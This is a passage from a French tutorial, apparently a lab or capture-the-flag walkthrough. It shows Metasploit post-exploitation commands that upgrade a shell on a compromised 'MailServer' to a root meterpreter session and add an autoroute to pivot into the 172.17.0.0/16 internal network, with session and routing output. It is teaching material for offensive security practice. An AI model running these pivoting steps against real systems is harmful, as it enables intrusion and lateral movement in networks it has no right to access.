 ```bash
background
use post/multi/manage/shell_to_meterpreter
set session 1
run
```

Ici ``background`` nous permet de mettre en fond la session actuelle pour y revenir plus tard. La session a été définie avec le numéro 1 mais il se peut que de votre côté ce numéro **soit différent** si vous avez déjà ouvert plusieurs sessions au préalable.

On se retrouve alors avec une nouvelle session créée qui est un meterpreter. 

Si on liste les sessions actives on devrait en avoir 2. Celle qui nous intéresse est la sessions **meterpreter** :

```bash
sessions -l
``` 
```
Active sessions
===============

  Id  Name  Type                   Information                                                    Connection
  --  ----  ----                   -----------                                                    ----------
  2         meterpreter x86/linux  root @ MailServer (uid=0, gid=0, euid=0, egid=0) @ 172.17.0.5  192.168.1.16:4433 -> 192.168.1.39:58950 (172.17.0.5)
```

On peut voir que la connexion se fait bien de nous à la machine cible. Il est également précisé l'adresse dans le sous réseau (``172.17.0.5``).

Il nous faut **ajouter une nouvelle route** pour l'ensemble du réseau 172.17.0.0/16. A quoi servira cette route ? Elle servira comme point d'entrée et de sortie pour les paquets. C'est-à-dire qu'on va spécifier le chemin à emprunter pour tous les paquets en destination du sous réseau 172.17.0.0/16. 

Ajouter une route se fait facilement : 

```bash
sessions -i 2
run autoroute -s 172.17.0.0/16
run autoroute -p
```

La première commande sert à intéragir avec la sessions meterpreter, la deuxième commande sert à **créer la route** tandis que la seconde permet de **lister** toutes les routes actives et donc de vérifier que notre première commande a bien fonctionné correctement.

En cas d'erreur vous pouvez toujours supprimer une route (à vous d'aller chercher les options requises).

La dernière commande nous sort ce résultat :

```
Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.0         255.255.0.0        Session 2
```
